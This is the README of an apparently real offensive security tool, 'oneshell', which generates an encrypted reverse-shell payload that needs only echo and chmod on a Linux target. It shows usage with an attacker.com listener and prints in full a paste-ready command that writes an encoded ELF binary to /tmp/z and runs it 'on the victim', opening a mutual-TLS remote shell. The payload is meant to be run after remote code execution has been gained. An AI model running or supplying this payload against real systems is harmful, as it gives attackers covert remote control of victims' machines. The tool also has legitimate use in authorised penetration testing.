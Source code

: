 # One Shell To Rule Them All

![image](https://github.com/user-attachments/assets/4a390578-47cb-423a-87ca-ad681a46731c)

# Blog

For a detailed explanation of how the tool works, check out my blog on the topic [here](https://tantosec.com/blog/oneshell/).

# Installation

**Local install**

```bash
go install github.com/tantosec/oneshell@latest
```

**Prebuilt binary**

Download a binary from [the releases page.](https://github.com/tantosec/oneshell/releases)

**Docker**

Replace `oneshell` commands with the following:

```bash
docker run --rm -it -p 9001:9001 tantosec/oneshell
```

> Remember to update the value of the `-p` option to the port you are using.

# Basic Usage

If you want your payload to connect back to `localhost` on port `9001`, run the following command:

```bash
oneshell -t localhost -p 9001
```

In the real world, you will probably have an internet accessible server (for example `attacker.com`) with a firewall that allows port `9001` through. As you want the victim to connect back to `attacker.com`, you will run a command like this on the `attacker.com` machine:

```bash
oneshell -t attacker.com -p 9001
```

You should receive output similar to the following:

```
Generating temporary MTLS certificates...
Payload connects to 127.0.0.1:9001
Copy the following command and run on victim:

zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z

2024/07/15 15:51:17 Listening for connections on 0.0.0.0:9001
```

Copy the part that says

```
zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z
```

and run it on the victim. You should receive an interactive shell connection on the server, which will be secured with mutual TLS.

# Why?

Let's say that you have achieved remote code execution on a target machine and are looking to escalate your privileges. You might think to establish a reverse shell to make this process easier.
However, being a security professional, you want your connection to be encrypted to prevent data being transferred insecurely.

It turns out that there are a few ways to do this, mostly involving the `openssl` or `ncat` tools. What if you don't have these tools on the target? One solution is to download them over the internet using `curl` or `wget`. But what if the target doesn't have these binaries either? The base `ubuntu` Docker image doesn't.

"One Shell To Rule Them All", or `oneshell` for short, is a tool that can solve this problem. It does this by running an encrypted reverse shell using only the `echo` and `chmod` commands.

# Detailed requirements for a successful payload

* Target can connect to your listener via TCP
* Shell execution on the target (for example `system` in PHP)
    * This will allow using the `echo` inbuilt shell command
* x86_64 CPU (Arm64 support coming soon)
* `chmod` binary located on path
* The ability to write to the following file paths: `/tmp/x`, `/tmp/y`, `/tmp/z`

These conditions cover almost all server setups.

# References

* Basis for Tiny ELF file from [https://nathanotterness.com/2021/10/tiny_elf_modernized.html](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
* AES implementation sourced from [https://github.com/mko-x/SharedAES-GCM/tree/master/Sources](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
